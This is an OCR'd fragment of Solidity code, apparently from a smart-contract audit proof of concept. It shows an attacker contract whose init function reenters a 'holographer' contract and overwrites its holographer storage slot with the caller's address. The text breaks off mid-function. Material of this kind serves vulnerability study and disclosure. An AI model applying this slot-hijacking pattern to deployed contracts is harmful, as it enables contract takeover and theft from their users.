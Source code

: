         constructor() {
             mc = new MockContract();
        }
    
        //function that reenters the holographer and sets this contract as the new holograph slot
        function init(bytes memory initPayload) external returns(bytes4) {
            assembly {
                sstore(holographer.slot, caller())
            }
            bytes memory initCode = abi.encode(abi.encode(uint32(1), address(this), bytes32("0xabc"), address(this)), bytes("0x0")); 
